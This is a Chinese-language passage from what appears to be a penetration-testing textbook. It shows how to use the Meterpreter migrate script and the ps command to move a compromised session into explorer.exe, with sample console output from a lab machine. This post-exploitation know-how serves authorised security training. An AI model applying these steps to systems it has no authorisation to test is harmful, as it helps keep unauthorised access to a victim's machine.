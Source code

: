 在 第十章 中利用 Internet Explorer 时，我们使用了 `AutoRunScript` 选项来自动运行 *migrate* 脚本，以便在浏览器崩溃之前生成一个新进程并迁移到其中。我们也可以直接在 Meterpreter 中运行这个脚本。例如，输入 **`run migrate -h`**，如 示例 13-3 所示，会显示 *migrate* Meterpreter 脚本的帮助信息。

示例 13-3. 迁移脚本帮助信息

```
meterpreter > **run migrate -h**

OPTIONS:

    -f        Launch a process and migrate into the new process
    -h        Help menu.
    -k        Kill original process.
    -n <opt>  Migrate into the first process with this executable name (explorer.exe)
    -p <opt>  PID to migrate to.
```

由于我们并不是为了在会话关闭之前抢先操作，我们有一些不同的选项可以选择迁移到哪个进程。我们可以通过使用 `-n` 选项根据进程名称进行迁移。例如，要迁移到 Meterpreter 在进程列表中遇到的第一个 *explorer.exe* 实例，可以使用 `-n explorer.exe`。

你还可以通过使用进程 ID（PID）和 `-p` 选项迁移到某个进程。使用 Meterpreter 的 `ps` 命令查看正在运行的进程列表，如 示例 13-4 所示。

示例 13-4. 运行进程列表

```
meterpreter > **ps**

Process List
============

 PID   PPID  Name              Arch  Session     User                    Path
 ---   ----  ----              ----  -------     ----                    ----
 0     0     [System Process]        4294967295
 4     0     System            x86   0           NT AUTHORITY\SYSTEM
--*snip*--
 1144  1712  explorer.exe      x86   0           BOOKXP\georgia          C:\WINDOWS\Explorer.EXE
--*snip*--
 1204  1100  wscntfy.exe       x86   0           BOOKXP\georgia
```

*Explorer.exe* 是一个可靠的选择。选择 PID `1144` 作为 *explorer.exe*，然后运行如 示例 13-5 所示的 Meterpreter *migrate* 脚本。

示例 13-5. 运行迁移脚本

```
meterpreter > **run migrate -p 1144**
[*] Migrating from 1100 to 1144...
[*] Migration completed successfully.
meterpreter > **getuid**
Server username: BOOKXP\georgia
```

Meterpreter 成功迁移到 *explorer.exe* 进程中。现在，如果 SMB 服务器恰好变得不稳定或崩溃，我们的 Meterpreter 会话是安全的。

如果你再次运行 `getuid` 命令，你会看到我们不再以 *System* 用户身份运行，而是以用户 *georgia* 身份运行。这是有道理的，因为该进程属于已登录用户 *georgia*。通过进入这个进程，我们有效地将权限降到了用户 *georgia* 的级别。
